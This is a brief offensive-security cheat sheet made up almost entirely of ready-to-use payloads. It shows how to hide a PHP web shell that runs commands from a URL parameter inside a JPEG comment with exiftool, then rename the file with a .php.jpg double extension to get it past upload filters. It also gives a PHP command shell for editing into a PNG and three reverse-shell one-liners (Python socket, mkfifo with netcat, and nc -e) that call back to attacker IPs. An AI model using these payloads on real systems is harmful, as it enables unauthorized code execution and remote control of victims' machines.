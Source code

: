 ### Using exiftool
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' normal.jpg
      mv normal.jpg normal.php.jpg
### Vim edit png
      <?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
### reverse shells
      python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.30",4444));os.dup2(s.fileno(),0);              os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.4 4444 >/tmp/f
      nc -e /bin/sh 10.0.0.1 1234
